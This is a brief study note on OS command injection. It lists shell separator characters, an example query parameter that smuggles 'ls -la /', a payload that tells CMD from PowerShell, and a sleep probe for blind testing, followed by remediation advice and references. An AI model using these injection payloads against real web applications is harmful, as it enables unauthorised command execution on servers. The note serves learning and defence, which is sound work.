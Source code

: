 # Command Injection

When a web application makes a call to a function that interacts with the server's console directly.

## The power of \*nix ";" or Windows "&" and...

```powershell
# Linux and Windows Host
&
&&
| 
||
# Linux
;
\n # or 0x0a
# $ or ` to perform inline execution of an injected command
` # injected command is `
$( # injected command is )


url/ENDPOINT?PARAMETRE=;ls+-la+/ 
PARAMETRE=&type  
```

%2F is URL encoded forward slash. `&` and `&&` to make additional commands to the payload that simply a one liner injected into a website.  

Is Dos or PowerShell executing the command injection payload?
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## Types 

1. Blind - no direct output from the application when testing payloads
2. Verbose - direct output from the application when testing payloads

Make the remote server sleep for blind PoC  
```bash
sleep 5
```

## Remediation 
2
1. Vulnerable functions interacting with OS replaced
2. Sanitise and Filtering Input - [Portswigger](https://portswigger.net/web-security/os-command-injection):
	- Validating against a whitelist of permitted values.
	- Validating that the input is a number.
	- Validating that the input contains only alphanumeric characters, no other syntax or whitespace characters.

## References

[Portswigger](https://portswigger.net/web-security/os-command-injection)
[TryHackMe Room](https://tryhackme.com/room/oscommandinjection)
[OWASP](https://owasp.org/www-community/attacks/Command_Injection)
[THM OWASP Top 10 2021 Room](https://tryhackme.com/room/owasptop102021)